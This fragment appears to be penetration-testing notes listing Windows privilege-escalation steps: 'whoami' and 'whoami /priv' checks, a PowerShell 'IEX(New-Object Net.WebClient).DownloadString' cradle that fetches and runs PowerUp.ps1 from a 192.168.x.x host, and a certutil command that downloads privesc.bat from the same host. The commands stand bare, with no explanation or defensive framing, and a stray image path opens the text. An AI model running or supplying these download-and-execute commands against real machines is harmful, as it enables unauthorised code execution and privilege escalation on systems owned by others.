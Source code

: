#### Steps ####

```whoami```

```whoami /priv```

```powershell "IEX(New-Object Net.WebClient).DownloadString('http://192.168.x.x:8000/PowerUp.ps1')"```

```certutil.exe -urlcache -split -f http://192.168.x.x:8000/privesc.bat privesc.bat```
